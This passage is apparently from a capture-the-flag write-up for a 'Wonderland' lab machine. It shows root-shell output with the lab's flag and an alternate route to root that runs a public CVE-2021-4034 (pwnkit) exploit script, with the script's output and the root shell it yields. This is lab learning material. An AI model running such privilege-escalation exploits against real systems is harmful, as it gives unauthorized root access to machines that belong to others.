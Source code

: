 ## root.txt

```bash
# whoami;id;hostname;ip a;cat /home/alice/root.txt
root

uid=0(root) gid=1003(hatter) groups=1003(hatter)

wonderland

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:44:b0:81:c6:d7 brd ff:ff:ff:ff:ff:ff
    inet 10.10.16.97/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 1812sec preferred_lft 1812sec
    inet6 fe80::44:b0ff:fe81:c6d7/64 scope link 
       valid_lft forever preferred_lft forever

thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```


# Alternate Path to Root

Okay, so I ended up doing this after just for fun, because this machine was released before the disclosure of this CVE: this certainly was not the intended path. Also it is so easy that you don't learn anything doing it...so I highly suggest going the intended route.

## CVE-2021-4034 (pwnkit)

ref:
https://github.com/joeammond/CVE-2021-4034


With this exploit you can actually get root straight from alice:

```bash
alice@wonderland:~$ python3 CVE-2021-4034.py
[+] Creating shared library for exploit code.
[+] Calling execve()
# whoami
root
# 
```

